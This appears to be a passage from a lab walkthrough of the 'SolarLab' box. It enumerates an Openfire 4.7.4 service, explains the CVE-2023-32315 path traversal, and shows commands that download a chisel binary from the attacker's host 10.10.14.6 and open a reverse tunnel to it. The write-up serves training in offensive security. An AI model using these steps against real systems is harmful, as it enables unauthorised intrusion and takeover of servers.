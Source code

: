The second of those processes has a bunch of listening ports only on localhost:

```

PS C:\> netstat -ano | findstr 3084 | findstr LISTENING
  TCP    127.0.0.1:5222         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5223         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5262         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5263         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5269         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5270         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5275         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:5276         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:7070         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:7443         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3084
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3084

```

[This post](https://discourse.igniterealtime.org/t/openfire-and-the-command-line/48356) shows how to get the OpenFire version using command line web requests:

```

PS C:\> (curl http://localhost:9090/index.jsp).Content | findstr -i version
                        <div class="text" id="jive-loginVersion"> Openfire, Version: 4.7.4</div>

```

### CVE-2023-32315

#### Identify

Searching for “openfire cve 4.7.4” shows a bunch of results of CVE-2023-32315:

![image-20240919152244309](/img/image-20240919152244309.png)

#### Background

The [top result](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce) from vsociety\_ shows all about this vulnerability including how to, exploit the path traversal to create a new admin user, and using that to install a plugin and get RCE.

The issue is that OpenFire in some URLs isn’t properly sanitizing `%u002e`, which is a unicode encoding of dot, so `%u002e%u002e/` makes it to the server and becomes `../`. With this, I can hit the endpoints to create a user.

#### Tunnel

The easiest way to exploit this is to tunnel post 9090 on my host to port 9090 on SolarLab localhost using [Chisel](https://github.com/jpillora/chisel). I’ll host the latest binary on my Python webserver and fetch it to SolarLab. Then with the server started, I’ll connect:

```

PS C:\programdata> wget 10.10.14.6/chisel_1.10.0_windows_amd64 -outfile c.exe
PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:9090:127.0.0.1:9090

```
